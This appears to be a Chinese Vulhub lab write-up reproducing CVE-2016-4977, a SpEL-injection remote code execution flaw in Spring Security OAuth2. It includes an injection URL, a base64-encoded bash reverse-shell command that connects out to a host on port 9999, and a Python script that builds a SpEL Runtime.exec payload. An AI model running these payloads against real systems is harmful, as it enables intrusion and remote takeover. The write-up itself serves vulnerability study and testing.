




# Spring Security OAuth2 远程命令执行漏洞 CVE-2016-4977

## 漏洞描述

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了 Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

参考链接：

- http://secalert.net/#CVE-2016-4977
- https://deadpool.sh/2017/RCE-Springs/
- http://blog.knownsec.com/2016/10/spring-security-oauth-rce/

## 环境搭建

Vulhub 执行如下命令启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问 `http://your-ip:8080/` 即可看到 web 页面。

## 漏洞复现

访问 `http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入 `admin:admin` 即可。

可见，我们输入是 SpEL 表达式 `${233*233}` 已经成功执行并返回结果：



java 反弹 shell 的命令如下：

```
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

然后，我们使用 [poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py) 来生成反弹 shell 的 POC：

```
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```



如上图，生成了一大串 SpEL 语句。附带上这个 SpEL 语句发送请求：



监听 999 端口，成功接收反弹 shell（`/bin/bash` 反弹成功，`bash` 反弹失败）：


